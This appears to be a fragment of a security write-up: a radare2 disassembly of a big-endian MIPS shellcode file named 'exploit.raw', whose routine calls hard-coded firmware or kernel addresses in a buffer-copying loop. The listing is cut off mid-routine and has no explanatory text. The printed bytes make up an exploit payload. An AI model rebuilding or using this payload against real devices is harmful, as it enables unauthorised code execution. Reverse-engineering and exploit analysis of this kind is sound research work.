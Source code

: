 {% highlight asm %}
r2 -a mips -b 32 exploit.raw
[0x00000000]> e cfg.bigendian=true
[0x00000000]> dd
[0x00000000]> pd
     0x00000000      3c028648       lui v0, 0x8648
     0x00000004      27bdffd8       addiu sp, sp, -0x28
     0x00000008      3442d984       ori v0, v0, 0xd984
     0x0000000c  ~   3c038002       lui v1, 0x8002
            ;-- pc:
     0x0000000f                    unaligned
     0x00000010      afbf0024       sw ra, 0x24(sp)
     0x00000014      24040100       addiu a0, zero, 0x100
     0x00000018      afbe0020       sw fp, 0x20(sp)
     0x0000001c      afb7001c       sw s7, 0x1c(sp)
     0x00000020      afb60018       sw s6, 0x18(sp)
     0x00000024      afb50014       sw s5, 0x14(sp)
     0x00000028      afb40010       sw s4, 0x10(sp)
     0x0000002c      afb3000c       sw s3, 0xc(sp)
     0x00000030      afb20008       sw s2, 8(sp)
     0x00000034      afb10004       sw s1, 4(sp)
     0x00000038      3c128024       lui s2, 0x8024
     0x0000003c      afb00000       sw s0, (sp)
     0x00000040      3463a554       ori v1, v1, 0xa554
     0x00000044      0060f809       jalr v1
     0x00000048      8c540000       lw s4, (v0)
     0x0000004c      3c1080d9       lui s0, 0x80d9
     0x00000050      3643e298       ori v1, s2, 0xe298
     0x00000054      0060f809       jalr v1
     0x00000058      00409821       move s3, v0
     0x0000005c      36033cf8       ori v1, s0, 0x3cf8
     0x00000060      02802021       move a0, s4
     0x00000064      0060f809       jalr v1
     0x00000068      0040b021       move s6, v0
     0x0000006c      00408821       move s1, v0
     0x00000070      36033c20       ori v1, s0, 0x3c20
     0x00000074      24040001       addiu a0, zero, 1
     0x00000078      0060f809       jalr v1
     0x0000007c      00402821       move a1, v0
     0x00000080      36023d60       ori v0, s0, 0x3d60
     0x00000084      0040f809       jalr v0
     0x00000088      02202021       move a0, s1
     0x0000008c      3c0380d3       lui v1, 0x80d3
     0x00000090      3615642c       ori s5, s0, 0x642c
     0x00000094      3657e2ec       ori s7, s2, 0xe2ec
     0x00000098      347ef414       ori fp, v1, 0xf414
     0x0000009c      26d21080       addiu s2, s6, 0x1080
     0x000000a0      3470fce8       ori s0, v1, 0xfce8
 ┌─> 0x000000a4      02602021       move a0, s3
┌──> 0x000000a8      0200f809       jalr s0
╎╎   0x000000ac      24050100       addiu a1, zero, 0x100
╎╎   0x000000b0      02802021       move a0, s4
╎╎   0x000000b4      02602821       move a1, s3
╎╎   0x000000b8      24060100       addiu a2, zero, 0x100
╎╎   0x000000bc      02a0f809       jalr s5
╎╎   0x000000c0      00003821       move a3, zero
╎└─< 0x000000c4      1840fff7       blez v0, 0xa4
╎    0x000000c8      00408821       move s1, v0
╎    0x000000cc      02402021       move a0, s2
╎    0x000000d0      03c0f809       jalr fp
╎    0x000000d4      02602821       move a1, s3
╎    0x000000d8      02511821       addu v1, s2, s1
╎    0x000000dc      a0600001       sb zero, 1(v1)
╎    0x000000e0      02e0f809       jalr s7